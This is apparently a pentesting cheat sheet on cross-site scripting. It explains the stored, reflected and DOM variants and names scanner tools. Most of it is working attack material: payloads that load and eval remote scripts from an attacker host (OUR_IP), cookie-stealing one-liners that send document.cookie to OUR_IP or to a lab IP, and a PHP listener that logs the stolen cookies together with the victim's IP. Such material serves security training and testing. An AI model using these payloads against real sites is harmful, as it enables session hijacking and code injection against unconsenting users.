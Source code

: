 #### **Stored XSS**

*Identify*:`<script>alert(window.origin)</script>`,`<script>print()</script>`

##### **Reflected XSS:**
- Non-Persistent XSS
- Reflected XSS vulnerabilities occur when our input reaches the back-end server and gets returned to us without being filtered or sanitized.
- *Identify*:`<script>alert(window.origin)</script>`,`<script>print()</script>`

#### **DOM XSS**

- Non-Persistent
- The `Source` is the JavaScript object that takes the user input, and it can be any input parameter like a URL parameter or an input field, as we saw above.
- On the other hand, the `Sink` is the function that writes the user input to a DOM Object on the page. If the `Sink` function does not properly sanitize the user input, it would be vulnerable to an XSS attack. Some of the commonly used JavaScript functions to write to DOM objects are:

- `document.write()`
- `DOM.innerHTML`
- `DOM.outerHTML`

Furthermore, some of the `jQuery` library functions that write to DOM objects are:

- `add()`
- `after()`
- `append()`

**Identify**:`<img src="" onerror=alert(window.origin)>`

---
#### **XSS Discovery Automated**

Almost all Web Application Vulnerability Scanners (like Nessus, Burp Pro, or ZAP) have various capabilities for detecting all three types of XSS vulnerabilities.

Some of the common open-source tools that can assist us in XSS discovery are [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser).

`python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`

---
### **Loading a Remote Script**

<script src="http://OUR_IP/script.js"></script>

```
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script><script>$.getScript("http://OUR_IP")</script>
```

```
[!bash!]$ mkdir /tmp/tmpserver
[!bash!]$ cd /tmp/tmpserver
[!bash!]$ sudo php -S 0.0.0.0:80
```

```
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
...SNIP...
```

Try testing various remote script XSS payloads with the remaining input fields, and see which of them sends an HTTP request to find a working payload.

#### **Session Hijacking**

```
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

```
new Image().src='http://10.10.14.170/index.php?c='+document.cookie
```

We can save the following PHP script as `index.php`, and re-run the PHP server again:

```
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

```
sudo php -S 0.0.0.0:80
```


## References:

- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss
- https://github.com/payloadbox/xss-payload-list
